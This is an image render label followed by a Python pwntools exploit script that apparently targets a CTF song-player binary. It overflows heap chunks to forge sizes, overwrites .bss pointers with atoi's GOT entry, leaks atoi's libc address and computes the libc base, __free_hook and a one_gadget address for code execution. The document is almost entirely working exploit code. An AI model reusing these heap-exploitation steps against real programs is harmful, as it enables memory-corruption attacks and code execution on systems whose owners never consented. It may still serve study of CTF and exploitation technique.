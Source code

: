 ```python
imp("Warrior")
play("45")
play("46")

play("23")

delete("13")
delete("12")
delete("2")
delete("23")

bss_segment = p64(0x404078) #Song num 1's fd
bss_segment_2 = p64(0x404120) #Song num 4's fd (cuz song 2 and eventually 3 is now gone :()
payload = "A"*32
payload += bss_segment
payload += "B"*(32-8)
payload += bss_segment_2
payload += "C"*760


payload += p64(0) + p64(0x3c1) #Song num 45 is now in a 0x3c0 byte chunk
payload += "\x00"*(880 - 848 - 8)
payload += p64(0x3c1) #Song num 46 is now in an 0x3c0 byte chunk
payload += "\x00"*48
play_overflow("44", "-1", payload)

delete("46")
delete("45")

play("14")
play("15") #Song no 1 now has fd 0

play("3")

atoi_got = p64(0x403fd0)
clobber = p64(0x0) #Set song 4's filedesc to 0
#Gonna clobber the .bss with an allocation. First need to generate the payload
for i in range(0, 13):
        clobber += atoi_got
        clobber += atoi_got
        clobber += "\x00"*(5*8)
        
#Fix up the end to not corrupt any pointers
clobber += atoi_got
clobber += atoi_got
clobber += "\x00"*(31-16)
play_overflow("1", "767", clobber) #Song num 4-17's song->filedesc is set to 0, and their song album pointer points to atoi, which has atoi libc address

atoi_libc = u64(list(6, "15. ").ljust(8, '\x00'))
log.success("Atoi in libc: " + hex(atoi_libc))

atoi_offset = 0x40680
onegad_offset = 0x4f322
free_hook_offset = 0x3ed8e8

libc_base = atoi_libc - atoi_offset
free_hook_libc = libc_base + free_hook_offset
one_gadget_libc = libc_base + onegad_offset

log.success("libc base: " + hex(libc_base))
log.success("Free hook location: " + hex(free_hook_libc))
log.success("One gadget location: " + hex(one_gadget_libc))
```